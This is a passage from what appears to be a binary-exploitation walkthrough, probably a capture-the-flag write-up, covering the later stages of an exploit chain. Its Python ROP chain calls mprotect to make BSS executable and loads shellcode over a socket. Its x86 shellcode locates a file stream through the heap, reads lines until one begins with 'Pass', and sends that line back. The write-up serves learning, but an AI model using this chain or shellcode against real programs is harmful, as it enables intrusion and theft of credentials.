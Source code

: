 From here you can continue using ROP as creating your full chain in stage 2, but for me it's better to have a shellcode injected. that take use to stage 3

```python
EXPLOIT = mprotect
EXPLOIT += next_inst <- you will find this in the full exploit

EXPLOIT += p32(BSS)
EXPLOIT += p32(0x1000)
EXPLOIT += p32(0x7)

EXPLOIT += Read
EXPLOIT += next_inst
EXPLOIT += p32(SOCK)
EXPLOIT += p32(BSS + 0x500)
EXPLOIT += b"A" * 4

EXPLOIT += pop_eax
EXPLOIT += p32(BSS + 0x500)

EXPLOIT += call_eax
```

Using mprotect to convert bss to executable, and again using Read() to read our shellcode into bss and call it.

```python
# Stage 3
ASM = f"""
    mov esp, {BSS + 0x900}

    xor eax, eax
    xor ebx, ebx

    mov eax, 45
    int 0x80

    sub eax, {HEAP_END_OFFSET_TO_FP}
    push eax

    mov eax, {rewind}
    call eax

    push 0x100
    push {BSS}

read_line:
    mov eax, {fgets}
    call eax
    
    mov ecx, [eax]
    cmp ecx, 0x73736150
    jne read_line
  
    push 0
    push 0x50
    push {BSS}
    push {SOCK}
    
    mov eax, {send}
    call eax
"""
```
For our shellcode we first use `brk` syscall to get the wilderness address of the heap, then calculate the address of the file stream. 